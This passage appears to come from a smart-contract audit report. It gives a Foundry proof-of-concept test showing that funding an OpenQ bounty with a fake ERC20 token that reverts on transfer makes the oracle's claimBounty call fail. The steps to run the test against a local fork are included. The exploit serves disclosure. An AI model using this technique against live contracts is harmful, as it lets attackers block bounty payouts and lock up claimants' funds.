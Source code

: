 ```solidity
    address oracle;

    function setUp() public {
        bountyAddress = IBounty(OPENQ.bountyIdToAddress(atomicBountyWithGoalId));
        oracle = CLAIM_MANAGER.oracle();
        // Do not require any kyc/invoice/docs  
        vm.startPrank(oracle);
        OPENQ.setKycRequired(atomicBountyWithGoalId, false);
        OPENQ.setInvoiceRequired(atomicBountyWithGoalId, false);
        OPENQ.setSupportingDocumentsRequired(atomicBountyWithGoalId, false);
        vm.stopPrank();

        // Fund the us DAI and approve bounty with our DAI
        deal(address(DAI), address(this), deposit_amount);
        DAI.approve(address(bountyAddress), deposit_amount);
        
    }

    // Helped to deposit ERC20 token to bounty
    function fundBountyToken(address erc) public {
        DEPOSIT_MANAGER.fundBountyToken(
        address(bountyAddress),
        erc,
        deposit_amount,
        block.timestamp + 100,
        "hacker");
    }

    // Helper to create close data

    function getCloseData() public returns (bytes memory data) {
        bytes memory data = abi.encode(address(this), "hacker", address(this), "some_id");
        return data;
    }
    function test_preventClaim() public {
        // Create fakeERC20 token that reverts on "transfer"
        FakeERC20 fakeToken = new FakeERC20();

        // Fund bounty with DAI and fake token
        fundBountyToken(address(DAI));
        fundBountyToken(address(fakeToken));

        // Validate bounty is claimable
        assertEq(CLAIM_MANAGER.bountyIsClaimable(address(bountyAddress)), true);

        // Claim bounty and validate that the call will revert
        vm.prank(oracle);
        vm.expectRevert("SafeERC20: low-level call failed");
        CLAIM_MANAGER.claimBounty(address(bountyAddress), address(this), getCloseData());
    }
}
```
6. Execute `forge test -m test_preventClaim --fork-url=http://127.0.0.1:8545`
